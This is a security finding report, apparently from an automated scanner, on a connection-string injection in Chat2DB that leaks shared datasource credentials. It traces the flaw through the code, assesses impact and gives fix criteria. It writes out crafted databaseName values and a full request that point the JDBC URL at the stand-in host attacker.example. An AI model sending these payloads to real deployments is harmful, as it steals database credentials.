

# Request databaseName spliced into PostgreSQL/KingBase JDBC URL redirects shared datasource credentials

| Field | Value |
|---|---|
| ID | `find_01YZLyi12e3fWenRJvRo67Kc` |
| Severity | **High** |
| Status | open |
| CWE | CWE-99 — Connection string injection |
| Created | 2026-10-21T22:49:49.097539Z |
| Claude Security | https://claude.ai/security/findings/find_01YZLyi12e3fWenRJvRo67Kc |

## Description

A logged-in web-mode user with a USER or TEAM grant on an admin-owned shared PostgreSQL or KingBase datasource can make the server send that datasource's stored user name and password to a host the user chooses. The attack is one request with a crafted `databaseName`. `PostgreSQLDBManage.replaceDatabaseInJdbcUrl` and the KingBase equivalent put that name into the JDBC URL unchecked, so it can change the host and port.

1. **grantee** sends an `/api/rdb/**` request whose `databaseName` holds URL characters. For example `databaseName=postgres?PGHOST=attacker.example&PGPORT=5432&x=` on `/api/rdb/table/list`, and no validation constraint stops it. ([`chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/controller/data/source/request/DataSourceBaseRequest.java:21-24`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/controller/data/source/request/DataSourceBaseRequest.java#L21-L24))
2. **the advice in `ConnectionInfoHandler`** copies `databaseName` into the `ConnectInfo` next to the stored URL, user and decrypted password. The only check is `checkPermission`, which asks for use access and not ownership, so a grantee passes it. ([`chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/aspect/ConnectionInfoHandler.java:44-102`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/aspect/ConnectionInfoHandler.java#L44-L102))
3. **the connection pool in `ConnectionPool`** misses the cache and asks the `DBManage` for a new connection. The cache key includes `databaseName`, so any new name forces a new connection through `PostgreSQLDBManage`. ([`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/ConnectionPool.java:62-99`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/ConnectionPool.java#L62-L99))
4. **`PostgreSQLDBManage.getConnection`** rewrites the stored URL with the request's name as the last path segment. `replaceDatabaseInJdbcUrl` writes the name verbatim and does not encode or reject `?`, `&`, `=` or `/`, so the name opens a query string of its own. For KingBase with the default template `jdbc:kingbase8://localhost:54321/`, the name replaces `host:port` itself. ([`chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/PostgreSQLDBManage.java:153-188`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/PostgreSQLDBManage.java#L153-L188))
5. **`DefaultDBManage`** hands the rewritten URL and the stored user and password to the driver. `IDriverManager` puts the credentials in `Properties info` and calls `driverEntry.getDriver().connect(url, info)` with the URL unchanged. ([`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/jdbc/DefaultDBManage.java:50-78`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/jdbc/DefaultDBManage.java#L50-L78))
6. **the pgjdbc driver `postgresql-42.5.1.jar`** connects to the attacker's host and answers its cleartext-password request with the stored password. This assumes, for this pinned version, that query arguments override the `PGHOST` and `PGPORT` parsed from the authority. The jar is not in the checkout. ([`chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/pg.json:7-14`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/pg.json#L7-L14))

## Assessment

The attacker is an authenticated web-mode user holding a USER or TEAM grant on a shared PostgreSQL or KingBase datasource that an admin created. In web or team mode only an admin creates `SHARED` datasources, and grantees cannot edit them. The attacker sends a request such as `GET /api/rdb/table/list?dataSourceId=<id>&databaseName=postgres%3FPGHOST%3Dattacker.example%26PGPORT%3D5432%26x%3D` and runs a listener that asks for cleartext authentication. No victim action is needed. For KingBase, a name such as `x:1` replaces the host and port outright. The report did not trace a host override for `ClickHouseDBManage.setDatabaseInJdbcUrl` and `TimeplusDBManage.setDatabaseInJdbcUrl`. They concatenate the raw name the same way. Removing secrets from other API responses does not close this path.

Impact: The attacker obtains the plaintext user name and password of a shared datasource that they were only meant to use through Chat2DB. This breaks the documented guarantee that members never learn the password (`CHANGELOG.md:257`). The poisoned connection is keyed to the attacker's own login, so other users' connections and Chat2DB's own data are not changed.

Subsequent-system impact: With the leaked credential the attacker can log in to the customer database directly, or through a new private Chat2DB datasource. This is outside the grant model and keeps working after the grant is revoked. It carries the full rights of the stored account, which Chat2DB uses for DML and DDL, so reads and writes follow.

## Recommendation

(1) `PostgreSQLDBManage.replaceDatabaseInJdbcUrl` and `KingBaseDBManage.replaceDatabaseInJdbcUrl` (and the ClickHouse and Timeplus equivalents) treat a request-supplied string as a trusted URL path component. A name with `?`, `&` or `/` can change the host, port and driver properties of a stored URL that the caller may not edit.

Fix criteria: The per-request database name can only select the database and never alters the authority or the connection properties of the stored URL. It is passed as the driver's database property, or its metacharacters are rejected or URL-encoded. A request with `databaseName=postgres?PGHOST=x&PGPORT=1&x=` on a shared PostgreSQL datasource either fails or connects to the stored host, never to `x`. A request with `databaseName=x:1` on a KingBase datasource either fails or connects to the stored host, never to `x`.

(2) `ConnectionInfoHandler.toInfo` accepts `databaseName` and `schemaName` from any grantee without validation. It attaches them to a `ConnectInfo` that holds the stored credentials, so every plugin downstream receives attacker-shaped identifiers as if they were trusted.

Fix criteria: Database and schema names are validated in `ConnectionInfoHandler` before any `DBManage.getConnection` call, against an identifier character set or against the datasource's catalog. A database name containing URL metacharacters is refused on all `/api/rdb/**` endpoints.

## Evidence

**https://github.com/cx-benchmark/chat2db**

- [`chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/PostgreSQLDBManage.java:153-188`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/PostgreSQLDBManage.java#L153-L188)
- [`chat2db-server/chat2db-plugins/chat2db-kingbase/src/main/java/ai/chat2db/plugin/kingbase/KingBaseDBManage.java:59-90`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-plugins/chat2db-kingbase/src/main/java/ai/chat2db/plugin/kingbase/KingBaseDBManage.java#L59-L90)
- [`chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/aspect/ConnectionInfoHandler.java:44-102`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/aspect/ConnectionInfoHandler.java#L44-L102)
- [`chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/controller/data/source/request/DataSourceBaseRequest.java:21-24`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/controller/data/source/request/DataSourceBaseRequest.java#L21-L24)
- [`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/ConnectionPool.java:62-99`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/ConnectionPool.java#L62-L99)
- [`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/jdbc/DefaultDBManage.java:50-78`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/jdbc/DefaultDBManage.java#L50-L78)
- [`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java:60-95`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java#L60-L95)
- [`chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/pg.json:7-14`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-plugins/chat2db-postgresql/src/main/java/ai/chat2db/plugin/postgresql/pg.json#L7-L14)
- [`chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java:134-144`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java#L134-L144)
- [`CHANGELOG.md:257-259`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/CHANGELOG.md#L257-L259)

